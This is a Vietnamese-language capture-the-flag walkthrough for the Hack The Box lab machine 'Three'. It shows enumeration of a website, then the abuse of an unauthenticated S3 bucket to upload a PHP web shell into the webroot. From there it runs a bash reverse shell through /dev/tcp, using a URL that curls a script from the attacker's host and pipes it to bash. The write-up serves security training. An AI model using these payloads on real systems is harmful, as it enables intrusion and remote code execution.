

# Three

## Introduction

Các tổ chức thuộc mọi loại, quy mô và ngành công nghiệp đang sử dụng đám mây cho nhiều trường hợp sử dụng khác nhau, chẳng hạn như sao lưu dữ liệu, lưu trữ, phục hồi sau thảm họa, email, máy tính để bàn ảo, phát triển và thử nghiệm phần mềm, v.v. Do đó, việc có cấu hình an toàn cho cơ sở hạ tầng đám mây của công ty là rất quan trọng để bảo vệ chống lại mọi cuộc tấn công. Three là box Linux bao gồm một trang web, sử dụng bucket AWS S3 làm thiết bị lưu trữ đám mây. Có thể khai thác bucket S3 được cấu hình kém này và tải lên một shell ngược trên đó. Sau đó, có thể truy cập URL tương ứng để thực thi tệp ngược và cuối cùng là truy xuất flag.

```
Lưu ý: Vui lòng đợi máy vài phút để khởi động bình thường sau khi khởi động vì localstack cần vài phút để tải.
```

## Enumeration

Để bắt đầu, kiểm tra các cổng mở bằng cách sử dụng quét Nmap:

```
sudo nmap -sV 10.129.227.248
```


Quá trình quét cho thấy có hai cổng đang mở - port 80 (HTTP) và port 22 (SSH). Hãy liệt kê `port 80` bằng trình duyệt web.



Có thể thấy một trang web tĩnh có phần đặt vé hòa nhạc nhưng không hoạt động. Hãy thử xác định stack công nghệ của trang web bằng tiện ích mở rộng trình duyệt có tên là Wappalyzer. 


Wappalyzer xác định PHP là ngôn ngữ lập trình được trang web sử dụng.

Khi cuộn xuống trang web, sẽ thấy phần "Liên hệ", có thông tin email. Email được cung cấp ở đây có tên miền `thetoppers.htb`.


Hãy thêm một entry cho `thetoppers.htb` vào tệp `/etc/hosts` với địa chỉ IP tương ứng để có thể truy cập miền này trong trình duyệt.

Tệp `/etc/hosts` được sử dụng để phân giải tên máy chủ thành địa chỉ IP. Theo mặc định, tệp `/etc/hosts` được truy vấn trước máy chủ DNS để phân giải tên máy chủ, do đó, sẽ cần thêm entry vào tệp `/etc/hosts` cho miền này để cho phép trình duyệt phân giải địa chỉ cho `thetoppers.htb`.

```
echo "10.129.227.248  thetoppers.htb" | sudo tee -a /etc/hosts
```

### Sub-domain enumeration

#### What is a subdomain?

Subdomain là một phần thông tin bổ sung được thêm vào đầu tên miền của trang web. Nó cho phép các trang web tách và sắp xếp nội dung cho một chức năng cụ thể — chẳng hạn như blog hoặc cửa hàng trực tuyến — khỏi phần còn lại của trang web.

Ví dụ: nếu truy cập hackthebox.com, có thể truy cập trang web chính. Hoặc có thể truy cập ctf.hackthebox.com để truy cập phần của trang web được sử dụng cho CTF. Trong trường hợp này, `ctf` là subdomain, `hackthebox` là tên miền chính và `com` là tên miền cấp cao nhất (TLD). Mặc dù URL thay đổi một chút, vẫn đang ở trên trang web của HTB, theo tên miền của HTB.

Thông thường, các subdomain khác nhau sẽ có các địa chỉ IP khác nhau, vì vậy khi hệ thống tìm kiếm subdomain, nó sẽ lấy địa chỉ của máy chủ xử lý ứng dụng đó. Cũng có thể có một máy chủ xử lý nhiều subdomain. Điều này được thực hiện thông qua "host-based routing" hoặc "virtual host routing", trong đó máy chủ sử dụng tiêu đề Host trong yêu cầu HTTP để xác định ứng dụng nào sẽ xử lý yêu cầu.

Vì có tên miền `thetoppers.htb`, hãy liệt kê bất kỳ subdomain nào khác có thể có trên cùng một máy chủ. Có nhiều công cụ liệt kê khác nhau có sẵn cho mục đích này như `gobuster`, `wfuzz`, `feroxbuster`, v.v. Tính đến write-up này, sẽ sử dụng `gobuster` để liệt kê subdomain bằng lệnh sau.

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```

Sử dụng các cờ sau cho `gobuster`.

```
vhost : Sử dụng VHOST để tấn công bằng brute-forcing
-w    : Đường dẫn đến wordlist
-u    : Chỉ định URL
```

Lưu ý: Nếu sử dụng Gobuster phiên bản `3.2.0` trở lên, cũng phải thêm cờ `--append-domain` vào command để phép liệt kê tính đến vHost đã biết (`thetoppers.htb`) và thêm nó vào các từ tìm thấy trong wordlist (`word.thetoppers.htb`).

`GoBuster` sẽ gửi các yêu cầu với tiêu đề máy chủ trông giống như sau cho mỗi từ trong danh sách từ:

```
 Host: [word].thetoppers.htb
```

Nó sẽ ghi lại phản hồi mặc định và hiển thị bất kỳ phản hồi nào trả về kết quả khác.


Kết quả `gobuster` cho thấy có một subdomain có tên là `s3.thetoppers.htb`. Hãy thêm một entry cho subdomain này vào tệp /etc/hosts.

```
 echo "10.129.227.248  s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Sau khi đã thêm entry cho tên miền vào file hosts, hãy truy cập `s3.thetoppers.htb` bằng trình duyệt.


Trang web chỉ chứa JSON sau.

```
 {"status": "running"}
```

```
Lưu ý: Nếu thay vì JSON, nhận được Lỗi Proxy, hãy đợi box vài phút để khởi động đúng cách.
```

#### What is an S3 bucket?

Một tìm kiếm nhanh trên Google có chứa từ khóa "s3 subdomain status running" trả về kết quả https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html nêu rằng S3 là dịch vụ lưu trữ đối tượng dựa trên đám mây. Nó cho phép lưu trữ mọi thứ trong các thùng chứa được gọi là bucket. Các bucket AWS S3 có nhiều trường hợp sử dụng khác nhau bao gồm Sao lưu và Lưu trữ, Lưu trữ Phương tiện, Phân phối Phần mềm, Trang web Tĩnh, v.v. Các tệp được lưu trữ trong bucket Amazon S3 được gọi là S3 object.

Có thể tương tác với bucket S3 này với sự trợ giúp của tiện ích `awscli`. Nó có thể được cài đặt trên Linux bằng lệnh `apt install awscli`.

Đầu tiên, cần cấu hình nó bằng lệnh sau.

```
aws configure
```

Sử dụng một giá trị tùy ý cho tất cả các trường, vì đôi khi máy chủ được cấu hình để không kiểm tra xác thực (mặc dù vậy, máy chủ vẫn phải được cấu hình thành giá trị nào đó để `aws` hoạt động).


Chúng ta có thể liệt kê tất cả các bucket S3 được máy chủ lưu trữ bằng cách sử dụng lệnh `ls`.

```
 aws --endpoint=http://s3.thetoppers.htb s3 ls
```


Có thể sử dụng lệnh `ls` để liệt kê các object và tiền tố chung trong nhóm được chỉ định.

```
 aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```


Thấy các tệp `index.php`, `.htaccess` và một thư mục có tên là `images` trong bucket đã chỉ định. Có vẻ như đây là webroot của trang web đang chạy trên `port 80`. Vì vậy, máy chủ Apache đang sử dụng bucket S3 này làm nơi lưu trữ.

`awscli` có một tính năng khác cho phép sao chép các file vào bucket từ xa. Đã biết rằng trang web đang sử dụng PHP. Do đó, có thể thử tải tệp shell PHP lên bucket S3 và vì nó đã được tải lên thư mục webroot nên có thể truy cập trang web này trong trình duyệt, sau đó sẽ thực thi tệp này và sẽ thực thi mã từ xa.

Có thể sử dụng dòng lệnh PHP sau đây sử dụng hàm `system()` lấy tham số URL `cmd` làm đầu vào và thực thi nó như một lệnh hệ thống.

```
 <?php system($_GET["cmd"]); ?>
```

Hãy tạo một tệp PHP để tải lên.

```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Sau đó có thể tải shell PHP này lên bucket S3 `thetoppers.htb` bằng lệnh sau.

```
 aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```


Có thể xác nhận shell đã được tải lên bằng cách điều hướng đến http://thetoppers.htb/shell.php. Hãy thử thực thi lệnh OS `id` bằng tham số URL `cmd`.

```
http://thetoppers.htb/shell.php?cmd=id
```


Phản hồi từ máy chủ chứa đầu ra của lệnh OS `id`, lệnh này xác minh rằng có lệnh thực thi mã trên box. Vì vậy, bây giờ hãy thử lấy một shell ngược.

Thông qua một shell ngược, sẽ kích hoạt máy chủ từ xa kết nối lại với địa chỉ IP của máy cục bộ trên cổng lắng nghe đã chỉ định. Có thể lấy địa chỉ IP `tun0` của máy cục bộ bằng lệnh sau.

```
ifconfig
```


Tạo một shell ngược bằng cách tạo một tệp `shell.sh` mới chứa nội dung bash reverse shell sau đây, nội dung này sẽ kết nối trở lại máy cục bộ trên cổng `1337`.

```
 #!/bin/bash
 bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

Khởi động trình lắng nghe `ncat` trên cổng cục bộ `1337` bằng lệnh sau.

```
nc -lvnp 1337
```


Hãy khởi động một máy chủ web trên máy cục bộ trên `port 8000` và lưu trữ tệp bash này. Điều quan trọng cần lưu ý ở đây là lệnh này để lưu trữ máy chủ web phải được chạy từ thư mục chứa tệp shell ngược. Vì vậy, trước tiên phải chuyển đến thư mục thích hợp và sau đó chạy lệnh sau.

```
 python3 -m http.server 8000
```


Có thể sử dụng tiện ích `curl` để lấy tệp bash reverse shell từ máy chủ cục bộ và sau đó chuyển nó đến `bash` để thực thi. Vì vậy, hãy truy cập URL sau có chứa payload trong trình duyệt.

```
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash
```

Nhận được một shell ngược trên cổng lắng nghe tương ứng.


Có thể tìm thấy flag tại `/var/www/flag.txt`.

```
 cat /var/www/flag.txt
```

Đã hoàn thành Three.